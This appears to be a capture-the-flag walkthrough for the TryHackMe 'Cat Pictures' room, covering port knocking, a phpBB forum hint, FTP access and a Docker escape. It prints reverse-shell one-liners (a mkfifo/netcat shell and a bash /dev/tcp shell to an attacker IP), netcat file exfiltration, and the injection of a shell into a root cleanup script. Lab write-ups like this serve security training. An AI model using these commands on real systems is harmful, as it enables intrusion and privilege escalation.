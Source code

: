 ```yaml
---

title: Walkthrough - Cat Pictures
published: true
---
```


Security, PHPbb, Forum, Docker, Port Knocking. A forum where you can post cute cat pictures!

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

```
PORT     STATE    SERVICE     REASON
21/tcp   filtered ftp         port-unreach ttl 61
22/tcp   open     ssh         syn-ack ttl 61
2375/tcp filtered docker      port-unreach ttl 61
4420/tcp open     nvm-express syn-ack ttl 61
8080/tcp open     http-proxy  syn-ack ttl 60   
```

```
PORT     STATE  SERVICE      VERSION
21/tcp   closed ftp
22/tcp   open   ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
2375/tcp closed docker
4420/tcp open   nvm-express?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|     Please enter password:
|     Invalid password...
|     Connection Closed
|   NULL, RPCCheck: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:
8080/tcp open   http         Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
|_http-title: Cat Pictures - Index page
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
```

Visiting the phpbb on port 8080 and checking the version `/styles/prosilver/style.cfg` we can see version 3.3.3 which has no known exploits

- we can find a user `user` and a possible hint on their post

![0xskar](/assets/cat-pictures01.png)

```
POST ALL YOUR CAT PICTURES HERE :)
Knock knock! Magic numbers: 1111, 2222, 3333, 4444
```

- port knocking - let them know we want in `sudo knock '10.10.120.58' 1111 2222 3333 4444`
- and portscan again with nmap to see if they let us in `sudo nmap -sV -sT -sC -O -p21,22,2375,4420,8080 10.10.120.58` and we have open port ftp 21. login and get the note.

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```

We can `nc -nv` into the port 4420 and enter the password. maybe possibly get a better shell. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f` and we are there. Still super limited to what we can do here, and after looking around a bit nowhere to go other than the runme file. 

We only have limited options and in order to check out the runme file we have to get it over to our machine. We can do this with netcat. `nc -l -p 1234 > runme` on attacker machine and `nc -w 3 'ip' 1234 < runme` on the target inside the home directory.

- `r2 runme` to open runme in radarem, `aaa` to analaze, `s main` to select the main function, and finally `pdf` to display.

Looking at the file it looks like it needs a password and upon success it will send back a SSH key. Going to open in `ghidra` as well to get another look.

![0xskar](/assets/cat-pictures02.png)

Our password for runme is `rebecca` when we enter this the function it creates an ssh key in the user dir.

Using this key we can ssh in as catlover and it turns out to be root!

* * * 

## What is the flag 1?

![0xskar](/assets/cat-pictures03.png)

Turns out this is only root for flag 1. We are stuck in a docker container and must get out for the real root flag.

Inside of the `/opt/clean` directory there is a script that cleans the /tmp/ dir. We can edit this file and add a bash reverse shell at the end of it and setup a listener to get another root shell. `bash -i >& /dev/tcp/'10.2.127.225'/6969 0>&1`

* * * 

## What is the root flag?

![0xskar](/assets/cat-pictures04.png)

* * * 

